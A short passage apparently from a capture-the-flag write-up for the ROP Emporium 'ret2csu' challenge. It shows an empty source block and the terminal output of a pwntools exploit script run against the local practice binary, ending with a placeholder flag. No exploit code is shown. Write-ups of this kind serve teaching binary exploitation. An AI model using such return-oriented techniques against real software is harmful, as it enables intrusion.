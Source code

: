 ```
```

When we run it:

```
$    python exploit.py
[+] Starting local process './ret2csu': pid 17309
[*] Switching to interactive mode
ret2csu by ROP Emporium

Call ret2win()
The third argument (rdx) must be 0xdeadcafebabebeef

> ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
[*] Process './ret2csu' stopped with exit code -11 (SIGSEGV) (pid 17309)
[*] Got EOF while sending in interactive
```

Just like that, we got the flag!







